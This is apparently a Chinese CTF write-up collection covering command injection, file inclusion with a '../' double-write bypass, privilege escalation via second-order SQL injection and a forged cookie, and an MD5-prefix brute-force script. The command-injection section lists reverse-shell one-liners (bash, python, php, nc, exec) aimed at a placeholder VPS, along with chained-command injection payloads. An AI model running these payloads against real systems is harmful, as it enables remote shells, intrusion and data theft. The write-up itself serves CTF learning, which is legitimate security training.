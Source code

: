 ### 命令执行

![](CTF题目收集.assets/ctf-1.png)

无题目描述，拿到此题时，猜想是命令执行，当输入`ipconfig`,`ifconfig`命令的时候，给的提示是`get out Hacker`,按照`input`框说的给出`ip`,输入`ping 127.0.0.1`，发现结果变了如下图

![](CTF题目收集.assets/ctf-2.png)

发现命令是能跑起来，并且没有错误，同时使用burp跑了一下后台目录，发现有`flag.php`文件，但是访问`/flag.php`并没有回显，但是状态码是200，则证明是一个`php`的脚本，没有任何html相关的代码

在命令执行部分，只能访问`ip`才会被探测到，那么可以使用`;`,`&&`,`||`等执行第二条命令

构造payload

```shell
ping 1.1.1.1;ifconfig
```

发现回显`get out hacker`,猜想是有过滤，只保留一个关键字，将`ping`这个关键字去掉，发现没有被拦截，出现以下字符

![](CTF题目收集.assets/ctf-3.png)

那么猜想肯定是命令肯定是执行了的，因为服务器环境是`linux`，可以使用`ping 127.0.0.1`来查看是否执行了命令，因为在`linux`中如果不中止该命令，则会一直`ping`

```shell
-e 1.1.1.1;ping 127.0.0.1
```

![](CTF题目收集.assets/ctf-4.png)

说明一直在执行`ping`命令，那么服务器既然能成功执行`;`后面的命令，那么可以在`vps`上反弹shell

#### bash 反弹

```shell
bash -i >& /dev/tcp/<your_vps>/<your_port> 0>&1
```

#### python 一句话反弹

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_vps>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### php 一句话反弹

```shell
php -r '$sock=fsockopen("<your_vps>",<your_port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### NC命令反弹

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_vps> <your_port> >/tmp/f
```

#### exec 反弹

```shell
0<&196;exec 196<>/dev/tcp/<your_vps>/<your_port>; sh <&196 >&196 2>&196
```

因为此页面是`php`搭建的，所以使用`php` 一句话反弹shell，在`vps`上监听5000端口，在web页面执行`php`一句话反弹shell,如下图

![](CTF题目收集.assets/ctf-5.png)

经过试验，服务端没有python环境，能反弹shell回来的只有`php`一句话 反弹，`nc`命令反弹

#### 文件重定向

已知存在`flag.php`,可以将`flag.php`里的内容重定向到当前目录的`*.txt`文件中

```shell
cat flag.php > 1.txt
```

然后访问该`1.txt `就能看见`flag.php`里的内容

![](CTF题目收集.assets/ctf-7.png)

![](CTF题目收集.assets/ctf-8.png)

### 文件包含

![](CTF题目收集.assets/ctf-9.png)

打开F12查看`script`的`src`引入文件的方式并不是直接引入文件，而是使用`download.php?f=`的方式包含文件来引入文件，所以直接访问该接口包含文件

#### 相对路径包含文件

![](CTF题目收集.assets/ctf-10.png)

#### 绝对路径包含文件

![](CTF题目收集.assets/ctf-11.png)

flag文件在根目录下，并且代码中对`../`做了`replace`所以采用双写绕过，很可惜没有该服务器未开启远程文件包含，所以能做的事太少了

### 垂直越权

一般控制用户的权限都在后台，后台一般是放在cookie里或者发送隐藏的JWT到前台，以做到控制权限

创建一个普通用户`admin'#`，尝试二次注入攻击，猜想在修改密码处执行的`sql`语句是

```sql
update users set password = '' where username = ''
```

二次注入攻击会将admin用户的密码修改了，执行的`sql`语句是

```sql
update users set password = '123456' where username = 'admin'#'
```

`#`直接将单引号注释，达到闭合前面的`'`，尝试之后，发现修改的是`admin'#`的密码

查看是否可以垂直越权，抓包发现`cookie`处的`PHPLOG`很可疑，末尾要么是7，或者是77，和`base64`编码的`=`,`==`很类似，猜想是将`username`进行`base64`编码之后，再加上`'='——'7'`的偏移量-6

`base64`编码中只存在 A-Z、a-z、0-9、+、/  、=`ASCII`字符，对其进行从小到大的排列，将admin进行编码，再加上偏移量，加上偏移量如果不在base64编码中，则在A-Z，a-z，0-9循环，如4加上偏移量不是base64编码，当`/`结束之后，则循环再从z开始

修改之后则发现，修改密码成功，最后登入系统，拿到flag

![](CTF题目收集.assets/ctf-12.png)

![](CTF题目收集.assets/ctf-13.png)

### 代码审计

#### MD5 截断比较验证

```php
<?php
include "flag.php";
highlight_file(__FILE__);
if(!isset($_REQUEST['password'])){
    $content="submit password please!<br />\n";
    die($content);
}
$m=md5($_REQUEST['password']);
if(strtolower(substr($m,0,6))==='aaaaaa'){
    echo $flag;
}else{
    echo "what's the fuck?";
}
?>
```

将参数password进行MD5，hash，得到一串hash值，并从0位置截取6位字符（`strtolower`函数将字符转换为小写）为`'aaaaaa'`,如果相等则输出flag

直接上python脚本

```python
import hashlib
dict = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'


def md5(text):
    return hashlib.md5(str(text).encode('utf-8')).hexdigest()


for i in dict:
    for j in dict:
        for k in dict:
            for l in dict:
                for o in dict:
                    x = i + j + k + l + o
                    md5Code = md5(x)
                    if md5Code[:6] == 'aaaaaa':
                        print x
                    else:
                        continue
```

![](CTF题目收集.assets/ctf-14.png)

